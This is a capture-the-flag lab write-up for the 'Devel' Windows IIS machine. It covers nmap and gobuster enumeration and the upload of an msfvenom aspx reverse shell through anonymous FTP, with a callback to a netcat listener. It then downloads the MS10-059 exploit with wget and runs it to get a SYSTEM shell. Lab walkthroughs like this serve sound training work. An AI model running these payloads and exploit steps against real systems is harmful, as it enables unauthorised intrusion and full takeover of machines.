






## Overview

Devel is a windows box running an ftp server that allowed read/write access to anonymous users to the root of the webserver folder. Initial footbold was gained by uploading an aspx reverse shell and accessing it via port 80 which provided initial access to the box. I then used Windows-Exploit-Suggester to to which showed it was vulnerable to MS10-59, upon running I was able to create a reverse shell as 'nt authority\system'.

## Enumeration

**Software**
* Microsoft Windows 7 Enterprise
* IIS 7.5

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.5 -oN /root/boxes/devel/_full_tcp_nmap.txt
```
* 21/tcp - Windows IIS ftp
* 80/tcp - Microsoft IIS httpd 7.5

**Directory/File Brute Force***
```
gobuster dir -u http://10.10.10.5 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x asp,aspx -t 40
```

_no results_

## Steps (user)

Reviewing the nmap results showed that two ports are open: 80 (http) and 21 (ftp). Browsing to http://10.10.10.5 showed the default IIS 7 page. Since gobuster didn't turn up any interesting results I moved on to port 21. 

> The nmap scan showed that the ftp server allowed anonymous login. 



> nmap with -A combines -O, -sV, and -sC which Enable OS detection, version detection, and script scanning.

Being able to read is good but being able to write is better. As a test I created a file to test my ability to upload/write and was successful.

```
echo 'this is a test' > test.txt
```





Since I now had confirmation that I could upload files to the ftp server and execute them on the website, I proceeded to create a reverse shell payload in aspx format with msfvenom

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.18 lport=4200 -f aspx > rshell.aspx
```

I set up a netcat listener (rlwrap nc -lvnp 4200) and uploaded the file to the ftp server.

```
ftp 10.10.10.5
username: anonymous
password: blank
put rshell.aspx
```

After browsing to rshell.aspx I received a callback to my netcat listener.



## Steps (root/system)

Since this is an older box I used Windows Exploit Suggester. For newer boxes there are other options such as wesng, Sherlock, or Watson.

According to wesng github page:

> I developed WES-NG because while GDSSecurity's Windows-Exploit-Suggester worked excellently for operating systems in the Windows XP and Windows Vista era, GDSSecurity's Windows-Exploit-Suggester does not work for operating systems like Windows 10 and vulnerabilities published in recent years. This is because Microsoft replaced the Microsoft Security Bulletin Data Excel file [1] on which GDSSecurity's Windows-Exploit-Suggester is fully dependent, by the MSRC API [2]. The Microsoft Security Bulletin Data Excel file has not been updated since Q1 2017, so later operating systems and vulnerabilities cannot be detected. 

Moving forward with wes; this tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.


```
./windows-exploit-suggester.py -l --database ~/tools/Windows-Exploit-Suggester/2019-11-17-mssb.xls --systeminfo sysinfo.txt
```



> In the results [E] means exploitdb POC, and [M] means metasploit module.

I didn't have any luck with MS11-011 so I tried MS10-059. First I downloaded MS10-059 to my local machine

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
```

I used the anonymous ftp server to upload the file and started a netcat listener on a new port (rlwrap nc -lvnp 4201)

```
ftp 10.10.10.5
username: anonymous
password: blank
binary
put MS10-059.exe
```

I executed ms10-059.exe, providing my box's IP and port as parameters and received a shell as 'nt authority\system'

```
ms10-059.exe 10.10.14.18 4201
```


